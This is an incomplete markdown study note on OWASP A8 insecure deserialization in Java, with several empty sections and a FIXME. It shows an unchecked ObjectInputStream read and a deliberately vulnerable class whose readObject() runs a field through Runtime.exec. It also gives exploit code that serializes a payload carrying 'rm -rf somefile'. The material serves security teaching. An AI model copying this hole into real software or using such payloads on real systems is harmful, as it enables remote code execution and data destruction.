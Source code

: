 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A8 - Insecure Deserialization](#a8---insecure-deserialization)
  - [Insecure Deserialization](#insecure-deserialization)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A8 - Insecure Deserialization

## Insecure Deserialization

### 1. Concept 

### 2. What is Serialization

Today, the most popular data format for serializin data is JSON.
Before that, it was XML.

### 3. The Simplest Exploit

Java Deserialization vulnerability (executing `readObject()` before the casting occurs):

```java
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
```

Class that supports serialization and with dangerous implementations on `readObject()`:

```java
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 1;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;

	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}

	private void readObject( ObjectInputStream stream ) throws Exception {
		//deserialize data so taskName and taskAction are available
		stream.defaultReadObject();

		//blindly run some code. #code injection
		Runtime.getRuntime().exec(taskAction);
	}
}
```

Exploit

```java
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();

ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();

byte[] exploit = bos.toByteArray();
```

### 4. What is a Gadgets Chain

### 5. Let's try

FIXME script/A8-insecure-deserialization.java